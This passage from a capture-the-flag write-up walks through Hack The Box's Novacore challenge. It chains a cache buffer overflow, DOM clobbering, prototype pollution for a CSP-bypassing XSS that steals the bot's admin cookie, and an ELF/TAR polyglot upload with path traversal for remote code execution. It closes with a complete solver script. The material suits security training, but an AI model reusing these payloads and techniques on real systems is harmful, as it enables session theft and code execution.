signal:42d56d70-1322-4f6a-b89c-c8b49986ab6f
signal:2e76d99f-afbc-4ef2-a06e-ef5123d13613
user:sys_admin:trade:b0edd7e4-c6b8-46ea-9595-b58d5bf41617
user:1:trade:d3c562c3-d575-45e9-922f-0ee9693d16d8
```

Aha! As we can see the admin account has `user_id` of 1. The `/api/trades` endpoint we saw earlier filtered trades based on the `user_id`:
```python
user_id = g.user.id if g.get("user") else "sys_admin"
# --- redacted ---
	if key.startswith(f"user:{user_id}:trade:"):
	# --- redacted ---
```

It turns out, because we accessed the API unconventionally via a Traefik bypass, we do not have a "real" user session since we bypassed the `token_required` which queried and linked us with our respective `user_id`:
```python
        db_session = Database()
        valid, user = db_session.validate_token(token)
        if not valid:
            return jsonify({"error": "Invalid API token"}), 401

        g.user = user
```

So even though we have full access to the API, we are given a fallback `sys_admin` user, which cannot make requests on behalf of the bot's admin user which has `user_id` 1.

This is a bummer! How will we write trades that can poison another user's feed now?

Wait... There is still a very critical part of the application that we have not explored yet. The `aetherCache` key store!

Let's inspect `cache/aetherCache.c`:
```c
#define BUFFER_SIZE 1024
#define KEY_SIZE 256
#define VALUE_SIZE 256
#define MAX_ENTRIES 1000

typedef struct {
    char key[KEY_SIZE];
    char value[VALUE_SIZE];
} Entry;

Entry entries[MAX_ENTRIES];
int entry_count = 0;
```

It is very interesting that they have fixed `KEY_SIZE` and `VALUE_SIZE` equal to 256 bytes. Let's see how keys are set:
```c
void set(const char *key, const char *value) {
    pthread_mutex_lock(&entry_mutex);
    for (int i = 0; i < entry_count; ++i) {
        if (strcmp(entries[i].key, key) == 0) {
            strcpy(entries[i].value, value);
            pthread_mutex_unlock(&entry_mutex);
            pretty_print("Updated existing key-value pair", 1);
            return;
        }
    }

    if (entry_count < MAX_ENTRIES) {
        strcpy(entries[entry_count].key, key);
        strcpy(entries[entry_count].value, value);
        entry_count++;
        pthread_mutex_unlock(&entry_mutex);
        pretty_print("Added new key-value pair", 1);
    } else {
        pthread_mutex_unlock(&entry_mutex);
        pretty_print("Error: maximum number of entries reached", 2);
    }
}
```

Interestingly, the developer took great care to make sure `set` operations are synchronized using `pthread_mutex_lock` and `pthread_mutex_unlock`. However, a quick look at how the new value is set, we find the disastrous usage of `strcpy(entries[i].value, value)`.

We all know that `strcpy` is an unsafe function that does not check bounds. In this case, supplying a value larger than 256 will lead to a stack-based buffer overflow that will overwrite the key of the next entry!

To confirm this, let's try something fun:
```bash
list
signal:17bb0ffc-5b96-44f3-8e86-ec104e68b5df
signal:a6598f42-8457-46ad-bf3a-b5aa2d97d0b6
signal:24c9fd30-9a88-421e-a65b-eabb2938d457
signal:42d56d70-1322-4f6a-b89c-c8b49986ab6f
signal:2e76d99f-afbc-4ef2-a06e-ef5123d13613
user:sys_admin:trade:b0edd7e4-c6b8-46ea-9595-b58d5bf41617
user:1:trade:d3c562c3-d575-45e9-922f-0ee9693d16d8
```

We know that on the stack, our two trades are placed like this:
```c
// entry 1
/*    key : 256 bytes    */
/*    val : 256 bytes    */
// entry 2
/*    key : 256 bytes    */
/*    val : 256 bytes    */
```

Let's see what happens if we set the `user:sys_admin:trade` entry to a value greater than 256:
```bash
echo `printf A%.0s {0..255}`aelmo
AAA ... x256 ... AAAaelmo
```

Then set a key to it (locally):
```
signal:17bb0ffc-5b96-44f3-8e86-ec104e68b5df
signal:a6598f42-8457-46ad-bf3a-b5aa2d97d0b6
signal:24c9fd30-9a88-421e-a65b-eabb2938d457
signal:42d56d70-1322-4f6a-b89c-c8b49986ab6f
signal:2e76d99f-afbc-4ef2-a06e-ef5123d13613
user:sys_admin:trade:b0edd7e4-c6b8-46ea-9595-b58d5bf41617
user:1:trade:d3c562c3-d575-45e9-922f-0ee9693d16d8

set user:sys_admin:trade:b0edd7e4-c6b8-46ea-9595-b58d5bf41617 AAA ... x256 ... AAAaelmo
STORED

list
signal:17bb0ffc-5b96-44f3-8e86-ec104e68b5df
signal:a6598f42-8457-46ad-bf3a-b5aa2d97d0b6
signal:24c9fd30-9a88-421e-a65b-eabb2938d457
signal:42d56d70-1322-4f6a-b89c-c8b49986ab6f
signal:2e76d99f-afbc-4ef2-a06e-ef5123d13613
user:sys_admin:trade:b0edd7e4-c6b8-46ea-9595-b58d5bf41617
aelmo
```

And this is what it looks like locally:


Amazing! We've successfully overwritten the key of the next entry using a buffer overflow in the cache store. This means we can spoof - or create - trades on behalf of any other user!

A quick review of the API shows us that this buffer overflow is exposed via the `edit_trade` function which gives us the opportunity to set the cache however we wish.

The function does not enforce any restrictions on the value set nor its length:
```python
@api.route("/edit_trade", methods=["POST"])
@token_required
def edit_trade():
    if not request.json:
        return jsonify({"error": "No JSON data provided"}), 400

    data = request.json
    trade_id = data.get("trade_id")
    symbol = data.get("symbol")
    action = data.get("action")
    price = data.get("price")

    if not trade_id:
        return jsonify({"error": "Trade ID is required"}), 400

    if not (symbol or action or price):
        return jsonify(
            {"error": "At least one of symbol, action, or price must be provided"}
        ), 400

    cache_session = AetherCacheClient()
    user_id = g.user.id if g.get("user") else "sys_admin"

    trade_key = f"user:{user_id}:trade:{trade_id}"
    trade_data = cache_session.get(trade_key)

    if not trade_data:
        return jsonify({"error": "Trade not found"}), 404

    parsed_trade_data = parse_signal_data(trade_data)

    if symbol:
        parsed_trade_data["symbol"] = symbol
    if action:
        parsed_trade_data["action"] = action
    if price:
        parsed_trade_data["price"] = price

    updated_trade_data = format_signal_data(
        parsed_trade_data["symbol"],
        parsed_trade_data["action"],
        parsed_trade_data["price"],
    )
    cache_session.set(trade_key, updated_trade_data)

    return jsonify({"message": "Trade updated successfully", "trade_id": trade_id})
```

We can supply a JSON object with either `symbol`, `action` or `price` and it will format it correctly and send a `set` command to the underlying vulnerable cache!

Precise exploitation of this vector will be needed when we write our script, for now it's enough to know that we can modify the admin account's trades. On to the HTML injection

## Chapter 5: Everybody Gets a Clobber!

As we saw in the last chapter, we identified a stack-based buffer overflow in the custom cache implementation. The vulnerability is exposed via the `/api/edit_trade` endpoint and allows us to control trades for any user, even ones we do not own including admin at `user_id` 1.

Since trades are reflected, sans-sanitization on the **My Trades** page, we can perform XSS! Or can we?

A quick look at the app shows us that it is using XSS' top nemesis: **Content Security Policy**.
```python
@web.before_request
def before_request():
	g.nonce = os.urandom(16).hex()
	
@web.after_request
def apply_csp(response):
	response.headers["Content-Security-Policy"] = f"default-src 'self'; script-src 'self' 'nonce-{g.nonce}' 'unsafe-eval'; style-src 'self'; img-src 'self'; font-src 'self'; connect-src 'self'; media-src 'self'; object-src 'self'"
	return response
```

All sources are set to `self` while scripts require a nonce that is generated securely per request. This CSP is applied indiscriminately on all requests.

Let's see if the website's own Javascript, the one that already has the nonce provided to it and is allowed to run may be vulnerable. If we can inject our own JS in one of these *approved* scripts, we will essentially bypass the CSP.

Inspecting the site, we find a custom JS file imported in all dashboard pages:
```html
<script src="/static/js/dashboard.js" nonce="3729df3f7380d660e87420775de5a8bc"></script>
```

Let's inspect it:
```js
window.onload = () => {
  const merge = (target, source) => {
    for (let attr in source) {
      if (
        typeof target[attr] === "object" &&
        typeof source[attr] === "object"
      ) {
        merge(target[attr], source[attr]);
      } else {
        target[attr] = source[attr];
      }
    }
    return target;
  };

  const startTime = new Date();
  
  try {
    if (document.getElementById("DEMO_VERSION") == 1) {
      alert("Warning: this is a demo version, contact us for full version");
    } else {
      null;
    }
  } catch (error) {
    if (window.UI_DEV_MODE) {
      const logData = {
        config: window.currentConfig || {},
        userAgent: navigator.userAgent,
      };

      fetch(
        `/front_end_error/new/${
          LOG_LEVEL?.attributes?.int?.nodeValue || "default"
        }`,
        {
          method: "POST",
          headers: {
            "Content-Type": "application/json",
          },
          body: JSON.stringify(logData),
        }
      )
        .then((r) => r.text())
        .then((data) => {
          data = JSON.parse(data);
          data = merge(logData, data);

          const configKeysLength = logData.config.length;
          const evaluatedConfigSize = eval(
            `${configKeysLength} > 5 ? 'Large Configuration' : 'Small Configuration'`
          );

          const endTime = new Date();
          const timeElapsed = eval(
            `(${endTime.getTime()} - ${startTime.getTime()}) / 1000`
          );
          const timeSeconds = eval(`${timeElapsed} / 60`);

          const element = document.createElement("div");
          element.innerHTML = [
            "start: " + startTime,
            "end: " + endTime,
            "timeElapsed: " + timeElapsed,
            "timeSeconds: " + timeSeconds,
            "Evaluated Config Size: " + evaluatedConfigSize,
          ].toString();

          document.body.appendChild(element);
        });
    } else {
      alert(error);
    }
  }
/* --- redacted --- */
```

This Javascript piece has lots going on, but it's quite simple once we trace it step-by-step. I traced it in reverse, starting from the `eval` function which would give us client-side execution:

Take a deep breath, and let's say it in one go:
> To get XSS we need to control `configKeysLength` which is equal to `logData.config.length` which succeeds a deep merge between `logData` and `data` which is received from a call to the `/front_end_error/new/` at the `LOG_LEVEL.attributes.int.nodeValue` log level. All of this requires `window.UI_DEV_MODE` to be set and requires an error to be trigger in the wrapping `try` block.

How can we achieve all of that? This took some time and experimentation, but let's do a forward pass through it

1. First, we can trigger an error within the `try {}` block by clobbering `document.getElementById`. This can be achieved using `` (Yea, I also didn't know)
2. Once within the `catch {}` block, we can satisfy the `if` condition by clobbering `window.UI_DEV_MODE`. This can be achieved using `<a id=UI_DEV_MODE>`
3. Once we get to the `fetch`, we easily make it return our own user-controlled JSON payload by accessing our same-site read-write primitive found earlier at `/front_end_error/view/pollution`. This can be achieved via DOM clobbering to path traversal using `<a id=LOG_LEVEL int='../view/pollution'>`
4. Once we are at `merge(logData, data)`, we can pollute the `.length` parameter with our final XSS by sending a JSON object like `{"__proto__": {"length": "alert(document.origin)//"}}`

Which looks like this:


Essentially, once all constraints are in place, our XSS payload will be delivered via our read-write primitive found earlier.

Our payload can also use the same read-write primitive to exfiltrate the bot's admin non-HttpOnly cookie since the primitive is same-site. If this wasn't available, a simple `window.href` redirect is also valid exfiltration method since top-level navigations are not prone to CSP.

> *Note: The final payload and how everything will be glued together is part of the last chapter where we automate this whole chain.*

With the admin cookie in hand, we will assume admin privileges from now on. Let's find our way to code execution.

## Chapter 6: Popping calc.exe (Metaphorically)

An RCE is always made of two components:
1. Write data
2. Execute data

Let's see where we can find these two components within our newly-gained admin capabilities.

We quickly spot two fantastic candidates in `web.py`:
1. `@web.route("/upload_dataset", methods=["POST"])`
2. `@web.route("/run_plugin", methods=["POST"])`

The first route allows us to upload datasets to `/app/application/datasets` as `tar` archives :
```python
@web.route("/upload_dataset", methods=["POST"])
@login_required
def upload_dataset():
	if "dataset_file" not in request.files:
		return render_template(
			"error.html",
			title="Error",
			type="Input",
			message="File not found",
			nav_enabled=False,
		), 403

	file = request.files["dataset_file"]
	if not check_dataset_filename(file.filename) and not is_tar_file(file.filename):
		return render_template(
			"error.html",
			title="Error",
			type="Input",
			message="File not valid",
			nav_enabled=False,
		), 403

	tmp_file_path = str(uuid.uuid4()) + ".tar"
	upload_path = os.path.join("/tmp", tmp_file_path)
	file.save(upload_path)

	if not is_tar_content(upload_path):
		os.unlink(upload_path)
		return render_template(
			"error.html",
			title="Error",
			type="Input",
			message="File not valid",
			nav_enabled=False,
		), 403

	new_upload_path = os.path.join("/app/application/datasets", file.filename)
	os.rename(upload_path, new_upload_path)

	return redirect("/datasets")
```

 While the second allows us to execute any of our pre-compiled plugins found at `/app/application/plugins`:
```python
@web.route("/run_plugin", methods=["POST"])
@login_required
def plugin_run():
	plugin_dir = "/app/application/plugins"

	plugin = request.form.get("plugin")
	if not plugin:
		return render_template(
			"error.html",
			title="Error",
			type="Input",
			message="Plugin is required",
			nav_enabled=False,
		), 403

	plugin_path = plugin_dir + "/" + plugin
	if not check_plugin_filename(plugin) or not is_exe_file(plugin_path):
		return render_template(
			"error.html",
			title="Error",
			type="Input",
			message="Invalid plugin",
			nav_enabled=False,
		), 403

	plugin_results = run_plugin(plugin_path)
	plugin_files = list_files_in_directory(plugin_dir)

	final_files = []
	for plugin in plugin_files:
		if is_exe_file(plugin_dir + "/" + plugin):
			final_files.append(plugin)

	return render_template("plugins.html", title="Plugins", session_data=session, plugin_files=final_files, plugin_results=plugin_results)
```

One writes to `/app/applications/datasets` while the other executes from `/app/applications/plugins`. An inconvenience, indeed.

Inspecting the dataset endpoint, we can see this operation performed at the end:
```python
new_upload_path = os.path.join("/app/application/datasets", file.filename)
os.rename(upload_path, new_upload_path)
```

This is unsafe as it trusts `file.filename`, passing it as a second argument to `os.path.join`. 

However, `file.filename` itself gets validated earlier using `check_dataset_filename` and `is_tar_file` as follows:
```python
file = request.files["dataset_file"]
	if not check_dataset_filename(file.filename) and not is_tar_file(file.filename):
		return render_template(
			"error.html",
			title="Error",
			type="Input",
			message="File not valid",
			nav_enabled=False,
		), 403
```

The first function allows us to conveniently use dots and slashes in our file name:
```python
def check_dataset_filename(file_path):
	if re.match(r"^[a-zA-Z0-9./]+$", file_path):
		return True
	else:
		return False
```

While the second function restricts us to a `.tar` ending:
```python
def is_tar_file(file_path):
	return file_path.lower().endswith(".tar")
```

That will do for us. It allows us to upload to any location by setting our uploaded filename to an absolute path with a `.tar` ending a la `/app/applications/plugins/aaaaaa.tar`.

What about the file's contents? Do we have any restrictions regarding those? Yes, we do:
```python
if not is_tar_content(upload_path):
		os.unlink(upload_path)
		return render_template(
			"error.html",
			title="Error",
			type="Input",
			message="File not valid",
			nav_enabled=False,
		), 403
```

`is_tar_content` is defined in `general.py` as follows:
```python
def is_tar_content(file_path):
	try:
		result = subprocess.run(
			["exiftool", file_path],
			capture_output=True,
			text=True,
			check=True
		)
		for line in result.stdout.splitlines():
			if "file type" in line.lower():
				return "tar" in line.lower()
		return False
	except subprocess.CalledProcessError:
		return False
	except FileNotFoundError:
		return False
```

The function calls `exiftool` on the dataset file and confirms that at least one line of `exiftool`'s output contains the phrases `file type` and `tar`.

We could bypass this in two ways, but both won't work for various reasons:
1. A race condition where we execute the file quickly while it's on disk before `exiftool` returns its output This won't work because during the `exiftool` check `upload_dataset` keeps the uploaded file at a random location within `/tmp`.
2. Give the uploaded file a filename of `file type.tar` which would trivially bypass the `exiftool` check
	- This won't work because the file is given a `uuidv4` filename during the check + the `check_dataset_filename` prohibits spaces in filename.

Umm... What can we do then? This destroys our `calc.exe` dreams.

Our file must be a `tar` to be recognized by `exiftool` as `tar`. It also must be an executable, well, to be executed.

Enters, polyglot files. We can have a file contain characteristics of multiple types without compromising characteristics of another. There is a whole database of possible combinations:
- https://github.com/Polydet/polyglot-database

And an excellent low-level explanation of how this is even possible:
- [Polyglottar, a structured ISO+TAR+ELF polyglot by Enrique Soriano-Salvador](https://tmpout.sh/4/16.html)

Long story short, the TAR magic number is placed at offset 0x101. If we write the TAR magic number at that offset within an ELF, lets see...

We will compile a basic C program:
```bash
echo 'main(){printf("hello, world\n");}' > main.c
gcc main.c -o main

./main
hello, world
```

Let's check it's type:
```bash
$ exiftool main
ExifTool Version Number         : 12.40
File Name                       : main
Directory                       : .
File Size                       : 16 KiB
File Modification Date/Time     : 2025:05:29 05:14:08+04:00
File Access Date/Time           : 2025:05:29 05:14:08+04:00
File Inode Change Date/Time     : 2025:05:29 05:14:08+04:00
File Permissions                : -rwxrwxrwx
File Type                       : ELF shared library
File Type Extension             : so
MIME Type                       : application/octet-stream
CPU Architecture                : 64 bit
CPU Byte Order                  : Little endian
Object File Type                : Shared object file
CPU Type                        : AMD x86-64
```

Let's make a tiny modification at offset 0x101 (257):
```bash
printf 'ustar\0' | dd of=x bs=1 seek=257 conv=notrunc
```

And check again:
```bash
exiftool main
ExifTool Version Number         : 12.40
File Name                       : main
Directory                       : .
File Size                       : 16 KiB
File Modification Date/Time     : 2025:05:29 05:14:44+04:00
File Access Date/Time           : 2025:05:29 05:14:44+04:00
File Inode Change Date/Time     : 2025:05:29 05:14:44+04:00
File Permissions                : -rwxrwxrwx
File Type                       : TAR
File Type Extension             : tar
MIME Type                       : application/x-tar
Warning                         : Unsupported file type
```

Apart from the warning on the last line, `File Type` did change to `TAR`! But wait a second... can we still run the ELF?
```bash
./main
hello, world
```

Incredible! It runs! We can now bypass all file upload restrictions, put a file anywhere we want, and bypass file content checks via a crafted polyglot TAR/ELF file that we can remotely execute on the target.

In the next - and final - chapter, we will be scripting everything we found so far into one neat chain that automatically generates everything from 0 to flag.

## Chapter 7: Scripting Time!

Let's put everything we did so far together in one auto-flag python script.

We will build the script piece by piece, then showcase the complete script at the end.

Let's start by importing the modules we need:
```python
from rich import print
import subprocess
import base64
import httpx
import time
import re
import io

```

Notably, we will use `subprocess` to automate compiling our custom plugin executable inside the target's Docker environment, `io` to craft our polyglot ELF, and of course `httpx` to communicate with our target.

We could avoid the Docker step by compiling a static executable, or by even doing it manually and copying the payload from Docker. I chose to automate it for fun factor.

First step is to get the Docker container which we are going to compile our plugin inside:
```python
container_id = subprocess.check_output(
    ["docker", "ps", "--filter", "name=nova", "--quiet"], text=True
).strip()
```

We used `--quiet` and filtered by `nova` to get the id of the Novacore container I am running locally.

Let's write and compile the plugin on the container we identified:
```python
plugin_code = 'main(){ system("cat /flag*"); }'
plugin_compile = (
    "echo '%s' > /tmp/plugin.c; gcc /tmp/plugin.c -o /tmp/plugin 2>/dev/null"
    % plugin_code
)
subprocess.check_call(
    ["docker", "exec", "-t", container_id, "bash", "-c", plugin_compile], text=True
)
```

Nice! This should write the plugin to `/tmp/plugin.c` and compile it to `/tmp/plugin`.

Next, let's exfiltrate it, a safe way to grab the binary, is to encode it as base64 (I tried reading the bytes directly into python but that failed for some reason):
```python
plugin_encode = "base64 -w0 /tmp/plugin"
plugin_base64 = subprocess.check_output(
    ["docker", "exec", "-t", container_id, "bash", "-c", plugin_encode], text=True
).strip()
```

Next, we will make sure to decode the encoded binary and modify it at offset 0x101 to make it an ELF/TAR polyglot:
```python
plugin_bytes = base64.b64decode(plugin_base64)
plugin_bytes = io.BytesIO(plugin_bytes)

print("\n3. Crafting ELF/TAR polyglot")
tar_magic = b"ustar\0"
plugin_bytes.seek(0x101)
plugin_bytes.write(tar_magic)
plugin_bytes = plugin_bytes.getvalue()
```

With the executable in hand, let's set `front_end_error` to serve our prototype pollution to XSS payload:
```python
api = httpx.Client(base_url=url, headers=dict(Connection="close, X-Real-Ip"))

xss = "fetch('/front_end_error/new/exfill', {method: 'POST', headers: {'Content-Type': 'application/json'}, body: JSON.stringify(document.cookie)})"
r = api.post(
    "/front_end_error/new/xss",
    json={"__proto__": {"length": "%s//" % xss}},
)
```

Notice the `Connection` header we attached to this client to abuse the `traefik` CVE identified earlier.

With the XSS read to be served, let's poison the bot's trades feed to execute our XSS. First, let's query active signals:
```python
signals = api.get(f"{url}/api/active_signals").json()["signals"]
signal_key = signals[0]["key"]
```

We need to copy any active signal, I will be using the first one and copy it until we have two trades:
```python
while len(trades := api.get("/api/trades").json()["trades"]) < 2:
    r = api.post("/api/copy_signal_trade", json=dict(signal_id=signal_key))
```

We can then edit the first of the two trades to overflow it onto the second. This part is tricky as we need to craft a precise payload with all paddings calculated precisely:
```python
# we target the first trade
trade = trades[0]

# reusing the same format_trade function for the app
def format_trade(trade):
    return f"symbol|{trade['symbol']}|action|{trade['action']}|price|{trade['price']}"

# getting the trade's existing value
trade_str = format_trade(trade["data"])

# we will be placing our overflow in the price section
trade_prefix = trade_str[: trade_str.rfind("|") + 1]
# we DOM clobber the three properties discussed earlier
# we replace spaces with / which is valid HTML to not
# break the cache low-level `set` command
html_injection = """\
<a/id=UI_DEV_MODE>\
<a/id="LOG_LEVEL"/int="../view/xss">\
"""

# we create a key with user:1:trade: prefix so it
# gets served to the bot
spoofed_key = "user:1:trade:aelmo"
# we put our HTML injection under symbol, action and price work too
spoofed_val = f"symbol|{html_injection}|action|buy|price|761.01"
assert len(spoofed_val) < 256

# we fill the value of 1st trade up to 256 then write key of 2nd trade
padding = 256 - len(trade_prefix)
# we fill the key of the 2nd trade up to 256 then write its value
padding2 = 256 - len(spoofed_key)
payload = "A" * padding + spoofed_key + "B" * padding2 + spoofed_val
```

With our payload crafted, let's send it to `/api/edit_trade`:
```python
r = api.post("/api/edit_trade", json=dict(trade_id=trade["key"], price=payload))
```

If all is good, the bot's feed should be poisoned at this point, let us wait for around a minute, then check our exfiltrated cookie session:
```python
time.sleep(60)
r = api.post("/front_end_error/view/exfill", json=True)
session = r.json().split("=")[-1]
```

With this session in hand, we can now craft a new `admin` client:
```python
admin = httpx.Client(base_url=url, cookies=dict(session=session))
```

As an admin, let's upload a dataset abusing the insecure path join we found earlier. The dataset contains our ELF polyglot:
```python
plugin_name = "getflag.tar"
plugin_dir = "/app/application/plugins/"
r = admin.post(
    "/upload_dataset",
    files={"dataset_file": (plugin_dir + plugin_name, plugin_bytes)},
)
```

Next, we simply execute the uploaded plugin using its name:
```python
r = admin.post("/run_plugin", data={"plugin": plugin_name})
```

And grab our flag from the response!
```python
print(re.search(r"HTB{.+?}", r.text).group(0))
```

## Finale: Complete Solver + Conclusion
Here is the complete script with prints, basic error handling and some polish:
```python
from rich import print
import subprocess
import base64
import httpx
import time
import re
import io


def format_trade(trade):
    return f"symbol|{trade['symbol']}|action|{trade['action']}|price|{trade['price']}"


plugin_code = 'main(){ system("cat /flag*"); }'
plugin_compile = (
    "echo '%s' > /tmp/plugin.c; gcc /tmp/plugin.c -o /tmp/plugin 2>/dev/null"
    % plugin_code
)
plugin_encode = "base64 -w0 /tmp/plugin"

print("1. Getting local container id")
container_id = subprocess.check_output(
    ["docker", "ps", "--filter", "name=nova", "--quiet"], text=True
).strip()
assert len(container_id) == 12, "[-] Failed to get container_id"
print(f"\t+ {container_id}")

print("\n2. Compiling custom plugin in target environment")

print("\t* Plugin code:", plugin_code)
print("\t* Compiling on target environment")
subprocess.check_call(
    ["docker", "exec", "-t", container_id, "bash", "-c", plugin_compile], text=True
)

print("\t* Reading base64-encoded executable from target environment")
plugin_base64 = subprocess.check_output(
    ["docker", "exec", "-t", container_id, "bash", "-c", plugin_encode], text=True
).strip()

print("\t+ Compiled successfully")

plugin_bytes = base64.b64decode(plugin_base64)
plugin_bytes = io.BytesIO(plugin_bytes)

print("\n3. Crafting ELF/TAR polyglot")
tar_magic = b"ustar\0"
plugin_bytes.seek(0x101)
plugin_bytes.write(tar_magic)
plugin_bytes = plugin_bytes.getvalue()
print("\t+ polyglot crafted successfully")

url = "http://localhost:1338"
# url = "http://94.237.48.197:47119"

api = httpx.Client(base_url=url, headers=dict(Connection="close, X-Real-Ip"))

print("\n4. Sending XSS via PP payload to /front_end_error")
xss = "fetch('/front_end_error/new/exfill', {method: 'POST', headers: {'Content-Type': 'application/json'}, body: JSON.stringify(document.cookie)})"
r = api.post(
    "/front_end_error/new/xss",
    json={"__proto__": {"length": "%s//" % xss}},
)
assert {"message": "Error logged"} == r.json()
print("\t+ XSS payload set successfully")

print("\n5. Retrieving active signal key")
signals = api.get(f"{url}/api/active_signals").json()["signals"]
signal_key = signals[0]["key"]
print("\t+", signal_key)

print("\n6. Retrieving target trade")
while len(trades := api.get("/api/trades").json()["trades"]) < 2:
    r = api.post("/api/copy_signal_trade", json=dict(signal_id=signal_key))
trade = trades[0]
print("\t+ Copied two trades as sys_admin")
print("\t+ trade 1 =", trades[0]["key"])
print("\t+ trade 2 =", trades[1]["key"])

print("\n7. Buffer overflowing trade 1 onto trade 2")

trade_str = format_trade(trade["data"])
trade_prefix = trade_str[: trade_str.rfind("|") + 1]
html_injection = """\
<a/id=UI_DEV_MODE>\
<a/id="LOG_LEVEL"/int="../view/xss">\
"""
spoofed_key = "user:1:trade:aelmo"
spoofed_val = f"symbol|{html_injection}|action|buy|price|761.01"
assert len(spoofed_val) < 256

padding = 256 - len(trade_prefix)
padding2 = 256 - len(spoofed_key)
payload = "A" * padding + spoofed_key + "B" * padding2 + spoofed_val

print("\t* Current value length:", len(trade_prefix))
print("\t* Spoofed key length:", len(spoofed_key))
print(f"\t* padding  = 256-{len(trade_prefix)} = {padding}")
print(f"\t* padding2 = 256-{len(spoofed_key)} = {padding2}")
print(
    "\t* Sending payload:",
    f"{padding}*'A' + '{spoofed_key}' + {padding2}*'B' + '{spoofed_val}'",
)

r = api.post("/api/edit_trade", json=dict(trade_id=trade["key"], price=payload))
assert "successfully" in r.json()["message"]
print("\t+ Spoofed trade via overflow")

print("\n8. Polling for exfiltrated victim cookie (< 1min)")
print("\t* ", end="", flush=True)
while r := api.post("/front_end_error/view/exfill", json=True):
    if "=" in r.text:
        session = r.json().split("=")[-1]
        break
    print(".", end="", flush=True)
    time.sleep(1)
print("\n\t+ session cookie =", session)

print("\n10. Uploading dataset in plugins directory")
plugin_name = "getflag.tar"
plugin_dir = "/app/application/plugins/"
admin = httpx.Client(base_url=url, cookies=dict(session=session))
r = admin.post(
    "/upload_dataset",
    files={"dataset_file": (plugin_dir + plugin_name, plugin_bytes)},
)
print("\t+ Dataset uploaded")

print("\n11. Executing plugin and getting flag")
r = admin.post("/run_plugin", data={"plugin": plugin_name})

print()
print("[green]" + re.search(r"HTB{.+?}", r.text).group(0) + "[/green]")
```

Here is a snippet of it running:


Interestingly, one team noticed that **$RANDOM** generated integers between 0 and 32767 which means that both email and password are feasibly bruteforce-able.
 
That team used a `bcrypt` oracle to bruteforce email and passwords independently, significantly reducing search space. This allowed them to unintendedly bypass a significant portion of the challenge (entire XSS chain).

And there you have it! A complete walkthrough of HTB's Novacore challenge.

I hope you enjoyed, do not hesitate to leave a comment and let me know what you think of this challenge, you can always contact me on Discord **@aelmo1** for questions and remarks.

See you in the next one!